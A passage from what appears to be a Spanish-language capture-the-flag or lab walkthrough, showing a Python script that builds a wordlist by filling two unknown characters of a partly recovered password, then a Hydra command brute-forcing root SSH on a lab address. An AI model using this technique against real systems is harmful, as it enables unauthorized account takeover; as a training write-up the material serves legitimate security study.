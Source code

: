 Así que crearemos un archivo llamado passwords2.txt con todos las posbiles combinaciones que reemplacen a los asteriscos. Esto será generado por el siguiente script python: 
```bash

nano generar_diccionario2.py 
```

```bash     
import itertools
import string

base = "2LWx{}DsW0A{}"
caracteres = string.ascii_letters + string.digits

with open("passwords2.txt", "w") as f:
    for c1, c2 in itertools.product(caracteres, repeat=2):
        f.write(f"{base.format(c1, c2)}\n")
```

le damos permisos de ejecución y lo ejecutamos

```bash
chmod +x generar_diccionario2.py
python3 generar_diccionario2.py
cat passwords2.txt
```

![passwords2](img/passwords2.png)

### Fuerza bruta con Hydra

Probaremos las passwords encontradas con el usuario root por el puerto 22 (ssh)

```bash
hydra -l root -P passwords2.txt ssh://10.0.2.33 -t 64 -V -f
```
![hydra2](img/hydra2.png)
![pass_root](img/pass_root.png)
